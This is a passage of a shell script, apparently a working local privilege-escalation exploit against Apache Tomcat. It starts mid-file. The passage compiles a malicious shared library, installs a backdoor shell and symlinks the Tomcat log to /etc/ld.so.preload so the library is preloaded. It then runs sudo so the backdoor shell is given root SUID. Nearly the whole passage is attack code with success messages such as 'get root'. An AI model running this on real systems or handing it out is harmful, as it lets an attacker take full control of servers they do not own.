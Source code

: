 ```
    return old_geteuid();
}
_solibeof_
gcc -Wall -fPIC -shared -o $PRIVESCLIB $PRIVESCSRC -ldl
if [ $? -ne 0 ]; then
    echo -e "\n[!] Failed to compile the privesc lib $PRIVESCSRC."
    cleanexit 2;
fi

# Prepare backdoor shell
cp $BACKDOORSH $BACKDOORPATH
echo -e "\n[+] Backdoor/low-priv shell installed at: \n`ls -l $BACKDOORPATH`"

# Safety check
if [ -f /etc/ld.so.preload ]; then
    echo -e "\n[!] /etc/ld.so.preload already exists. Exiting for safety."
    cleanexit 2
fi

# Symlink the log file to ld.so.preload
rm -f $TOMCATLOG && ln -s /etc/ld.so.preload $TOMCATLOG
if [ $? -ne 0 ]; then
    echo -e "\n[!] Couldn't remove the $TOMCATLOG file or create a symlink."
    cleanexit 3
fi
echo -e "\n[+] Symlink created at: \n`ls -l $TOMCATLOG`"

# Wait for Tomcat to re-open the logs
echo -ne "\n[+] Waiting for Tomcat to re-open the logs/Tomcat service restart..."
echo -e  "\nYou could speed things up by executing : kill [Tomcat-pid] (as tomcat user) if needed ;)
 "
while :; do 
    sleep 0.1
    if [ -f /etc/ld.so.preload ]; then
        echo $PRIVESCLIB > /etc/ld.so.preload
        break;
    fi
done

# /etc/ld.so.preload file should be owned by tomcat user at this point
# Inject the privesc.so shared library to escalate privileges
echo $PRIVESCLIB > /etc/ld.so.preload
echo -e "\n[+] Tomcat restarted. The /etc/ld.so.preload file got created with tomcat privileges: \n`ls -l /etc/ld.so.preload`"
echo -e "\n[+] Adding $PRIVESCLIB shared lib to /etc/ld.so.preload"
echo -e "\n[+] The /etc/ld.so.preload file now contains: \n`cat /etc/ld.so.preload`"

# Escalating privileges via the SUID binary (e.g. /usr/bin/sudo)
echo -e "\n[+] Escalating privileges via the $SUIDBIN SUID binary to get root!"
sudo --help 2>/dev/null >/dev/null

# Check for the rootshell
ls -l $BACKDOORPATH | grep rws | grep -q root
if [ $? -eq 0 ]; then 
    echo -e "\n[+] Rootshell got assigned root SUID perms at: \n`ls -l $BACKDOORPATH`"
    echo -e "\n\033[94mPlease tell me you're seeing this too ;)
  \033[0m"
else
    echo -e "\n[!] Failed to get root"
    cleanexit 2
fi

```